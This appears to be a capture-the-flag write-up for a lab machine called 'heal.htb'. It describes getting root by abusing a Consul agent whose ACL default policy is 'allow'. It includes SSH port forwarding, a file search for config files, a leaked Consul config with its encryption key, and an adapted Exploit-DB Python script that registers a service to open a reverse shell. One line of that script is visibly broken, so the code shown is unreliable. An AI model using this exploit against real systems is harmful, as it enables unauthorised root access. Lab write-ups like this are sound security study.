# Root Access

## Active Ports with User


### Local Port Forwarding
Forward the internal ports on the server to my local machine to see the data in my Browser
```
ssh -L 1337:127.0.0.1:8500 ron@heal.htb

ssh -L <LOCAL PORT>:<REMOTE IP>:<REMOTE PORT> <USER>@<SERVER>
```

- Try with every port
- Only response on port 8500



---

### Enumerate Consul

#### 1. Check for exploits on exploit db for ```consul```
- Found:
  - https://www.exploit-db.com/exploits/51117

#### 2. Try the script

1. Listen on Port 7331



2. Execute Script


- ACL Token missing

#### 3. Try to get ACL Token
- Search on the system where consul files are with:
```
find /etc /opt /usr /var -type f -iname "*consul*" 2>/dev/null

    -type f:        search for files
    -iname:         filename includes (case insensitive)
    -2>/dev/null:   suppresses errors by redirecting stderr to /dev/null
```


- Found config dir for consul



```
{
  "bootstrap":true,
  "server": true,
  "log_level": "DEBUG",
  "enable_syslog": true,
  "enable_script_checks": true,
  "datacenter":"server1",
  "addresses": {
        "http":"127.0.0.1"
  },
  "bind_addr": "127.0.0.1",
  "node_name":"heal-internal",
  "data_dir":"/var/lib/consul",
  "acl_datacenter":"heal-server",
  "acl_default_policy":"allow",
  "encrypt":"l5/ztsxHF+OWZmTkjlLo92IrBBCRTTNDpdUpg2mJnmQ="
}
```

Default acl policy is allow 

=> Even though the token doesn't have any access rights because of this the access is still allowed  

Problem:
  - When ```acl_default_policy": "allow"``` is set, any token without explicit permissions will still be granted access by default



<strong>=> I don't need an ACL Token</strong>

Quellen:
- https://developer.hashicorp.com/consul/api-docs/v1.19.x/agent/service#register-service
- https://developer.hashicorp.com/consul/docs/secure/acl/policy
- https://developer.hashicorp.com/consul/api-docs/v1.19.x/api-structure#authentication
- https://developer.hashicorp.com/consul/commands/v1.19.x/acl/token

#### 4. Customise script without the acl token
- Remove acl token argument & adjusted necessary arguments to 5 in first if statement
- changed name & id to "Hacked"
- removed header from request.put()
```
import requests, sys

if len(sys.argv) < 5:
    print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport>\n")
    exit(1)

target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
<imeout": "864000s"}, "ID": "Hacked", "Name": "Hacked", "Port": 80}

try:
    requests.put(target, json=json)
    print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
except:
    print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")
```

1. Listen to port 7331 again


2. Execute the adjusted script



3. Agent registered new service



4. Root reverse shell connection



5. Take root flag




---

### Root Flag


---

---
Für Präsentation:

---
